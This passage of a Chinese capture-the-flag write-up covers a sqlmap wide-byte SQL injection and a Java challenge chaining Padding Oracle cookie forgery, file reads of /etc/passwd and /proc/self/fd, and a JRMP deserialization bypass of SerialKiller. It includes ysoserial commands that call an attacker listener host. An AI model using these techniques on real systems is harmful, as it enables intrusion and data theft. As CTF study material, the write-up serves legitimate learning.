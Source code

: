 ```
sql-shell> select ctf_value from ctfdb.ctf_fhmHRPL5;
```
常规操作，注库名，表名，字段名（TCL）做的时候想的太复杂了，但是我的sqlmap最后这里不能直接--dump，所以我执行了--sql-shell自定义sql命令最终拿的flag  
sqlmap宽字节注入自带的tamper是`unmagicquotes`  
这里因为过滤了单引号，所以我们需要用--hex参数将字符串转为0x开头的16进制数字避开引号  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190419111259-094dde36-6251-1.png)

### 再来1杯Java
作者：**5am3**  
p.s.压轴题哈，说实话，这题真的学会了不少东西。毕竟自己太菜了，虽然本科专业为java开发狗。但我真的不太熟啊...  
一共分为三关吧。  
+ 首先是一个PadOracle攻击，伪造cookie。这个解密Cookie可以看到hint： PadOracle:iv/cbc。  
+ 第二关，读文件，看到后端代码后，才发现，这里贼坑。  
+ 第三关，反序列化。  

首先第一关好说，其实在/api/account_info这个接口，就可以拿到返回的明文信息。然后通过Padding Oracle + cbc翻转来伪造cookie即可。在这里就不多说了。网上很多资料。
最后拿到cookie，直接浏览器写入cookie就OK。然后可以获取到一个下载文件的接口。
>/api/fileDownload?fileName=1.txt

虽然说是一个任意文件读取的接口，但是贼坑、  
一顿操作猛如虎，最后只读出/etc/passwd...  

搜到了[很多字典](https://github.com/tdifg/payloads/blob/master/lfi.txt)。然后burp爆破一波，最后发现/proc/self/fd/15这里有东西，看到熟悉的pk头，情不自禁的笑了起来。（对，就是源码）  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190419014936-54f65eac-6202-1.png)  
源码也不多，很容易，可以看到一个反序列化的接口。  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190419014936-5527d2de-6202-1.png)  
在反序列化之前，还调用了SerialKiller，作为一个waf，对常见payload进行拦截。  
首先题目给了hint：JRMP。根据这个hint，我们可以找到很多资料。在这里自己用的ysoserial，根据他的JRMP模块来进行下一步操作。  
在这里，JRMP主要起了一个绕过waf的功能，因为这个waf只在反序列化userinfo时进行了调用。当通过JRMP来读取payload进行反序列化时，不会走waf。  
首先，JRMP这个payload被waf掉了，我们可以采用先知上的一种绕过方式。  
>https://xz.aliyun.com/t/2479

![](https://xzfile.aliyuncs.com/media/upload/picture/20190419014937-5555b226-6202-1.png)  
直接修改ysoserial源码即可，将原有的JRMPClient的payload复制一份，改名为JRMPClient2，然后保存并编译。  
此时我们可以尝试使用URLDNS模块，来判断是否攻击成功。  
修改替换{{内容}}  
开启监听端口  
建议采用ceye的dnslog查看  
`java -cp ./ysoserial-5am3.jar ysoserial.exploit.JRMPListener {{port}} URLDNS {{http://eval.com}}`  
生成链接JRMPListener的payload  
ip端口那里填写运行第4行脚本的主机地址端口  
`java -jar ./ysoserial-5am3.jar JRMPClient2 {{10.0.0.1:8119}} | base64`  
此时将第10行生成的代码，直接打到远程即可。  
然后查看dnslog信息。发现存在，那就是ok了。  
接下来可以尝试换payload了。此时这里还存在一个问题。服务器端无法执行命令！！  
这个是hint中给的，所以我们需要找另一种方式，如：代码执行。  
查阅资料，发现ysoserial预留了这块的接口，修改即可。  
>https://blog.csdn.net/fnmsd/article/details/79534877
